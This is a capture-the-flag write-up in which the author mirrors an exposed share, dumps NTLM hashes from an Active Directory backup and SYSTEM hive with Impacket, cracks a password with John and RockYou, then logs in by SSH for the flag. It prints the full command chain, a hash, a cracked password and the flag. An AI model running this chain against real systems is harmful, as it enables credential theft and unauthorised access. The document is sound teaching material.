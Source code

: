 # overSSHaring — Networking Challenge Write-Up

> **Category:** Networking   |   **Points:** 200 (Medium)

---

## 0  Scenario Overview

The North Torbians accidentally exposed an Active Directory backup and SYSTEM hive via a public file share at `https://msoidentity.com/files/`. My goal was to leverage these artifacts to extract SSH credentials and retrieve the flag.

## 1  Recon & Preliminary Analysis

I mirrored the share and listed its contents:

```bash
wget -r -np -nH --cut-dirs=1 -R "index.html*" https://msoidentity.com/files/
tree -L 1
```

```
.
├── 46381.py
├── 46467.txt
├── 51632.py
├── 51697.txt
├── backup                # 16 MiB – ESE database (AD backup)
├── config.json
├── configuration_deepseek.py
├── log.txt
├── opsec.txt
└── sys                   # 15 MiB – SYSTEM registry hive
```

- **log.txt** / **opsec.txt** mentioned reused passwords `s0ju` and `winter2024`.
- **config.json** was just a model config—no credentials.
- The critical files were **backup** (ESE) and **sys** (registry hive).

### 1.1  Failed Preliminary Attempts

Before dumping hashes, I tried a few direct approaches:

- **Tried SSH with known passwords** (`s0ju`, `winter2024`, and `winter2024!`) manually against common usernames → **Permission denied**.
- **Inspected **`` and Python scripts for hardcoded creds → none found.
- **Built a tiny custom John wordlist** with `s0ju`, `s0ju!`, `winter2024`, `winter2024!` → no hashes cracked.

These failures confirmed I needed to extract the underlying NTLM hashes.

---

## 2  Extracting NTLM Hashes

1. Identify file types:

   ```bash
   file backup   # ESE database
   file sys      # Windows registry hive
   ```

2. Dump NTLM hashes offline with Impacket:

   ```bash
   impacket-secretsdump -ntds backup -system sys LOCAL > ntds.txt
   grep ssh_admin ntds.txt
   ```

```
torbintime.local\ssh_admin:1114:...:8dbd9a82a5d6f6bc4124d05d247883a0:::
```

---

## 3  Cracking the Password

I started with a tiny wordlist:

```bash
printf "%s\n" s0ju s0ju! winter2024 winter2024! > custom.txt
john --format=NT --wordlist=custom.txt ssh_admin.hash
```

No hashes cracked. Next, I installed RockYou:

```bash
sudo apt install wordlists
gzip -d /usr/share/wordlists/rockyou.txt.gz
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt ssh_admin.hash
john --show ssh_admin.hash
```

John revealed:

```
ssh_admin:jucheteamo
```

---

## 4  SSH & Flag Retrieval

```bash
ssh ssh_admin@msoidentity.com
# Password: jucheteamo
cat ~/flag.txt
```

```
C1{f0ll0wing_th3_l34d5}
```

---

## 5  Lessons Learned

- **Public shares can leak whole AD backups.** ESE + SYSTEM → full credential dump.
- **Chat logs as cribs** accelerate cracking strategies.
- **Minimal tooling** (Impacket + John) remains effective.
- Disable `PasswordAuthentication yes` or rotate to key-only SSH.
